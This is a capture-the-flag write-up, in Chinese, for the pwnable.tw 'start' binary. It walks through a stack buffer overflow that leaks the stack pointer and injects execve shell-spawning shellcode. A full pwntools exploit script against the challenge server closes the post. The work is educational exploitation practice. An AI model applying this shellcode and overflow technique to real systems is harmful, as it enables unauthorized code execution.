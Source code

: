 ```yaml
---
title: pwnable.tw - start Writeup
published: 2025-04-23 16:20:30
description: ""
image: ""
tags:
    - pwnable.tw
    - pwn
category: CTF
lang: ""
---
```


## Beacon

先檢查檔案類型，是個 32 位元的 ELF 檔案。

```zsh
➜ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

保護機制全都沒有開。

```zsh
➜ checksec --file=start
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   8 Symbols         No    0               0               start
```

```zsh
gef➤  checksec
[+] checksec for '/home/yuto/pwnable_tw/start/start'
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : ✘
```

執行看看觀察程式的行為，會有一個輸入，接著就結束程式了。同時可以發現在輸入 20 個 A 時，程式會 segmentation fault，代表可能有 stack buffer overflow 的漏洞可以利用。

```zsh
➜ ./start
Let's start the CTF:aaaaaaaaaaaaaaaaaaaa
[1]    81889 segmentation fault (core dumped)  ./start
```

## Analysis

用 radare2 嘗試分析程式

```
r2 -AAA start
[0x08048060]> afl
0x08048060    1     61 sub.entry0_8048060
```

可以看到只有一個函式 `sub.entry0_8048060` 在記憶體位址 `0x08048060`。

### Program flow

反組譯的程式碼中，很明顯地可以看到程式一開始印出的字串 `Let's start the CTF:`，同時也可以看到最下方有透過 `int 0x80` 進行兩次系統呼叫。

![r2 disas](r2-disas.png)
> radare2 反組譯的程式碼

| syscall | eax | arg0(ebx)       | arg1(ecx)       | arg2(edx)    |
| ------- | --- | --------------- | --------------- | ------------ |
| read    | 3   | unsigned int fd | char *buf       | size_t count |
| write   | 4   | unsigned int fd | const char *buf | size_t count |
> 系統呼叫表

因此兩次的系統呼叫大致如下：

```c
write(1, "Let's start the CTF:", 20);
read(0, buf, 60);
```

### Memory

整個程式的 stack 使用狀況如下：

![stack analysis](stack-analysis.png)

## Vuln

目標是注入 shellcode 並覆蓋 return address 控制執行流程。但是目前對於記憶體位址的資訊不足，因此要想辦法先 leak 出 stack 的記憶體位址，然後再跳到 shellcode。

可以發現程式碼的部分在傳遞 `write` 的 `buf` 參數時，是直接把 `esp` 丟進去，所以剛好可以利用 `write` 來印出儲存在 stack 裡 `esp` 的記憶體位址，程式流程大致如下：

1. 輸入 `b"A" * 20 + write_addr`
2. stack 的內容被復原，程式執行 `ret`，此時 `esp` 指向的位址中是前一個 `esp` 的值
3. 跳回 write 的 `int 0x80` 那一行（`0x08048087`），印出前一個 `esp`

而接下來執行的 `read()` 也是把 `esp` 當作 `buf` 的指標，就可以在此時把 shellcode 送進 stack。但要注意的是，在程式執行 `ret` 前會先執行 `add esp, 0x14`，因此複寫 return address 的位址要在那之後。

![exploit](exploit.png)

> - `esp` 是第一次執行時的 stack pointer
> - `prev esp` 是第一次執行時的前一個 stack pointer
> - `write esp` 是覆蓋 retrun address 後，執行 `ret` 後的 stack pointer
> - `read esp` 是呼叫 `read()` 時的 stack pointer，同上

最後再用一點簡單的 shell 魔法，就可以順利拿到 flag 了。

```zsh
find / -name flag | xargs cat
```

## Exploit

```py
from pwn import *
import sys

BINARY = "./start"
REMOTE = "chall.pwnable.tw:10000"
DEBUG = len(sys.argv) > 1 and sys.argv[1] == "debug"

context.arch = "i386"
context.os = "linux"
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = "info"

# setup gdb scripts
GDBSCRIPT = """
b _start
"""


def connect():
    if DEBUG:
        return gdb.debug(BINARY, gdbscript=GDBSCRIPT)
    else:
        host, port = REMOTE.split(":")
        return remote(host, int(port))


write_addr = 0x08048087
shellcode = asm("""
    xor     eax, eax
    push    eax
    push    0x68732f2f
    push    0x6e69622f
    mov     ebx, esp
    xor     ecx, ecx
    xor     edx, edx
    mov     al , 0xb
    int     0x80
    """)


def exploit(io):
    payload = b"A" * 20 + p32(write_addr)
    io.sendafter(b":", payload)
    prev_esp = u32(io.recv(4))
    info("prev_esp: " + hex(prev_esp))
    io.recv()

    payload = b"A" * 20 + p32(prev_esp + 20) + shellcode
    io.send(payload)

    io.sendline(b"find / -name flag | xargs cat")

    flag = io.recvline().strip()
    success("flag: " + flag.decode())

    io.close()


if __name__ == "__main__":
    io = connect()
    try:
        exploit(io)
    finally:
        io.close()
```

最終執行的結果：

![win](win.png)